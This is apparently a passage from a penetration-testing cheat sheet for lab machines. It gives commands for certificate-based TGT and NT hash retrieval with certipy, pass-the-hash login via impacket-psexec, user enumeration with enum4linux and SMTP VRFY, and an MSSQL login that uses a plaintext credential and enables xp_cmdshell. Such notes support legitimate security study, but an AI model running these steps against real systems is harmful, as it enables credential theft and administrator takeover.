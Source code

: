 Ensure our local clock is in sync with DCs

```
sudo ntpdate 10.10.11.236
```

Get a TGT from the domain using pfx and then get the NT hash for administrator

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Login with impacket-psexec
```
impacket-psexec -hashes <NT HASH>:<NT HASH> administrator@10.10.11.236
```

## Linux 

### Enum4linux

Enum usernames
```
enum4linux -U 192.168.247.42
```

### SMTP
Port 25

User enum 
```
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.247.42
```

# Windows Initial Access

## Impacket

### mssqlclient.py
```
mssqlclient.py manager/operator:operator@manager.htb -windows-auth
```
- `enable_xp_cmdshell` - elevate to system
- `xp_dirtree` - read files
- `help`- list commands

```
SELECT name FROM master..sysdatabases;
```

```
use <DB NAME>;
```
